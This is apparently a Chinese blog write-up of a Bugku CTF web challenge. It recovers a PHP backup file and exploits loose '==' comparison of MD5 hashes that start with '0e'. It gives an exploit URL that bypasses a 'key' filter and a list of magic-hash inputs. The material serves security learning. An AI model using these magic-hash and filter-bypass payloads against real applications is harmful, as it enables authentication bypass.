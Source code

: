 ```yaml
---
title: 备份是个好习惯
date: 2019-08-16 18:23:13
tags:
- bugku
categories:
- ctf
- web
---
```


### 题目：备份是个好习惯
>http://123.206.87.240:8002/web16/  
>听说备份是个好习惯  

emm,备份是什么。  
不管他，我选择御剑。

<!-- more -->

![Snipaste_2019-11-06_18-01-20.png](https://i.loli.net/2019/11/06/bRs9E1yTfA4Szkp.png)

直接下载，源码如下

```
<?php
/**
 * Created by PhpStorm.
 * User: Norse
 * Date: 2017/8/6
 * Time: 20:22
*/

include_once "flag.php";
ini_set("display_errors", 0);
$str = strstr($_SERVER['REQUEST_URI'], '?');
$str = substr($str,1);
$str = str_replace('key','',$str);
parse_str($str);
echo md5($key1);

echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
}
?>
```
#### 1.
这里有几个主要的函数
- strstr  
  搜索字符串在另一字符串中是否存在，如果是，返回该字符串及剩余部分
- substr  
  返回字符串的一部分
- str_replace  
  替换字符串中的一些字符（区分大小写）
- parse_str  
  函数把查询字符串解析到变量中。
  注释：如果未设置 array 参数，由该函数设置的变量将覆盖已存在的同名变量。  

在这里就是在url里找`？`，有就返回`?`及之后字符串，然后返回从1开始的字符串，将字符串中key删除。
#### 2.
`md5($key1) == md5($key2) && $key1 !== $key2`，好像有点矛盾。。。  
但是
>PHP Hash漏洞  
>PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0。  
>攻击者可以利用这一漏洞，通过输入一个经过哈希后以”0E”开头的字符串，即会被PHP解释为0，如果数据库中存在这种哈希值以”0E”开头的密码的话，他就可以以这个用户的身份登录进去，尽管并没有真正的密码。  

网上找一找

```
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a
```
#### 3.
构造url  
因为`key`被删除，所以`key1`要变为`kkeyey1`

```
http://123.206.87.240:8002/web16/index.php?kkeyey1=s878926199a&kkeyey2=s155964671a
```
flag

```
0e5459932745177090343288558410200e342768416822451524974117254469Bugku{OH_YOU_FIND_MY_MOMY}鍙栧緱flag
```
#### 4.
cmd5 0e开头
原文链接：http://www.cnblogs.com/Oran9e/p/6537204.html
```
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
```